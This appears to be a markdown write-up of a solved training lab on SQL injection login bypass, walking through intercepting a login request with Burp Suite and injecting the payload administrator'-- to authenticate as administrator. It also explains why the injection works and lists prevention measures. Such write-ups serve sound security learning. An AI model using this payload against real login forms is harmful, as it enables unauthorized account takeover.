




# Lab 02 - SQL Injection Vulnerability Allowing Login Bypass

## Lab Information

* **Lab:** SQL injection vulnerability allowing login bypass
* **Difficulty:** Apprentice
* **Status:** ✅ Solved

---

## Objective

Exploit a SQL injection vulnerability in the login functionality to authenticate as the `administrator` user without knowing the password.

---

## Tools Used

* Burp Suite Community Edition
* Burp Proxy
* Burp Repeater
* Web Browser

---

## Steps

### 1. Open the Lab

Access the lab and navigate to the login page.

**Screenshot:**





---

### 2. Capture the Login Request

Intercept the login request using Burp Suite.

**Screenshot:**





---

### 3. Modify the Username Parameter

Replace the username value with the following payload:

```sql
administrator'--
```

The password can be any value because the SQL comment (`--`) ignores the rest of the query.

Modified request example:

```http
username=administrator'--&password=test
```

**Screenshot:**





---

### 4. Forward the Request

Send the modified request to the server.

The application authenticates the request as the administrator user.

**Screenshot:**





---

## Payload Used

```sql
administrator'--
```

---

## Why It Works

The application directly concatenates user input into the SQL query.

Original query:

```sql
SELECT * FROM users
WHERE username='administrator'
AND password='password';
```

Injected query:

```sql
SELECT * FROM users
WHERE username='administrator'--'
AND password='password';
```

Everything after `--` becomes a SQL comment, so the password check is ignored and the application logs in as the administrator.

---

## Impact

* Authentication bypass
* Unauthorized administrator access
* Complete account compromise

---

## Prevention

* Use parameterized queries (prepared statements)
* Never concatenate user input into SQL queries
* Validate and sanitize user input
* Use least-privilege database accounts

---

## Key Takeaways

* SQL Injection can bypass authentication.
* `--` comments out the remaining SQL query.
* Authentication should never rely on dynamically constructed SQL statements.
* Parameterized queries effectively prevent this vulnerability.
